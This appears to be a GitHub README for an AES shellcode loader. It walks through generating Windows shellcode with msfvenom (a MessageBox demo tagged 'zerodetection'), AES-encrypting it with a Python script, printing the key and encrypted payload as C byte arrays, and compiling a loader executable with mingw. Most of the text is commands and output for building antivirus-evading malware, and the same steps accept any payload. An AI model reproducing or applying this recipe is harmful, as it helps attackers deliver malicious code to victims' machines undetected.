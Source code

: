 # SHELLCODE_LOADER_AES


## Create Shellcode

Create a simple Messagebox Shellcode
```
msfvenom -p windows/x64/messagebox TEXT=zerodetection TITLE=zerodetection -f raw -o messagebox.raw
```


## Encrypt the Shellcode with AES

Check which Python version is on your system
```
python3 -V
```

Create a new virtual environment
```
virtualenv --python python3.8 venv
```

Install pycryptodome
```
pip install pycryptodome
```

Now you can encrypt your payload
```
python3 aesencrypt.py messagebox.raw
```


```
└─$ python3 aesencrypt.py messagebox.raw
char key[] = { 0x96, 0x45, 0x61, 0xe8, 0x93, 0x87, 0x37, 0xf4, 0xd6, 0x07, 0xa2, 0xf2, 0xc1, 0x24, 0x79, 0x67 };
unsigned char payload[] = { 0x5c, 0x3a, 0x41, 0x5c, 0x7f, 0x16, 0xa3, 0xec, 0xa0, 0x88, 0xf6, 0x32, 0x3c, 0x35, 0x7a, 0xb1, 0x31, 0x03, 0x0b, 0x2d, 0x5a, 0xf7, 0xd9, 0x97, 0x6a, 0xe8, 0x3c, 0xc5, 0x57, 0x47, 0xaa, 0x5b, 0x32, 0x3f, 0x23, 0xad, 0x54, 0x70, 0x46, 0x99, 0xb7, 0x98, 0x89, 0xd9, 0xfe, 0x3b, 0xd9, 0x79, 0xc5, 0xa5, 0xd3, 0x52, 0x06, 0x14, 0x49, 0x2d, 0x1e, 0x45, 0xe8, 0x0f, 0x9e, 0x16, 0xeb, 0x08, 0xab, 0x49, 0x88, 0x3a, 0xa1, 0x5c, 0x76, 0x30, 0x95, 0x86, 0x38, 0x95, 0xd4, 0x6a, 0x5f, 0x87, 0xde, 0xa6, 0x5e, 0x8c, 0xe8, 0xd0, 0x25, 0x4a, 0x0b, 0xd7, 0x17, 0x3e, 0xa5, 0x48, 0x11, 0xe2, 0x5d, 0x08, 0x1c, 0x9c, 0x51, 0x47, 0xec, 0x19, 0x68, 0x43, 0x4f, 0x89, 0x21, 0x12, 0x04, 0x85, 0xca, 0xfe, 0x1e, 0x50, 0x3d, 0xf0, 0x61, 0xb6, 0xf5, 0x98, 0xbf, 0x0e, 0xf1, 0x62, 0x93, 0x55, 0xc3, 0x13, 0x98, 0x4f, 0xb0, 0x6d, 0x00, 0x25, 0x3e, 0x99, 0x9f, 0x89, 0x1f, 0xdb, 0x3c, 0xe6, 0xfc, 0xd7, 0xeb, 0x56, 0xb7, 0x18, 0x92, 0x55, 0x5e, 0x37, 0xf1, 0x79, 0x42, 0x31, 0xcf, 0xd1, 0xae, 0x9b, 0xa5, 0x8d, 0x1e, 0xfc, 0xea, 0xb2, 0x7c, 0x15, 0x8e, 0x9e, 0x1f, 0x0a, 0x49, 0x3c, 0x9f, 0x55, 0x4c, 0x45, 0x68, 0x56, 0xe4, 0x07, 0x0c, 0x59, 0x11, 0x65, 0x84, 0xe0, 0xe1, 0x4f, 0xc5, 0xf6, 0x4e, 0x37, 0x0e, 0xe1, 0xad, 0x78, 0x84, 0x3d, 0xec, 0xd5, 0xb1, 0x31, 0xc2, 0x69, 0x96, 0x29, 0x05, 0xe1, 0xbd, 0xe4, 0x17, 0x2d, 0x12, 0xb2, 0xb2, 0xd4, 0x99, 0x25, 0xd4, 0xec, 0x6b, 0x07, 0x80, 0x5e, 0xa1, 0x5a, 0xbd, 0xcd, 0xf9, 0x49, 0x62, 0x85, 0xfa, 0x13, 0xf4, 0xba, 0xe1, 0x50, 0x4b, 0x86, 0xb0, 0xc7, 0x7f, 0x01, 0x84, 0x50, 0x3b, 0xf1, 0xaa, 0x4f, 0xbf, 0x04, 0x74, 0x24, 0xb7, 0x7e, 0x36, 0xd6, 0x00, 0x7f, 0xc0, 0x9d, 0x74, 0x2d, 0xdc, 0x54, 0x08, 0x5b, 0x95, 0x98, 0x2f, 0xa0, 0xeb, 0xf4, 0x53, 0xf9, 0xe5, 0x11, 0x6b, 0x93, 0x38, 0xe5, 0x2b, 0x77, 0x8c, 0x55, 0x4f, 0x83, 0x3b, 0x6d, 0xc4, 0x18, 0xed, 0x99, 0x55, 0x70, 0x92, 0xc1, 0x46, 0x2c, 0x6c, 0x9f, 0x50, 0x0c, 0x8c, 0x87, 0xda, 0xc9, 0xc8, 0xb0, 0x82, 0xa6, 0x5e, 0x2a, 0x3a, 0x0d, 0xcb, 0x75, 0x74, 0xa9, 0xa3, 0xfb, 0x8a, 0x4c, 0x62, 0xb5, 0x6e, 0xb6, 0x4b, 0x1c, 0xab, 0xb8 };
```

## Copy the key and payload and compile the Shellcode Loader

Copy key and payload into the source-code

Compile the source-code
```
x86_64-w64-mingw32-gcc BasicImplantAES_01.c -o BasicImplantAES.exe
```
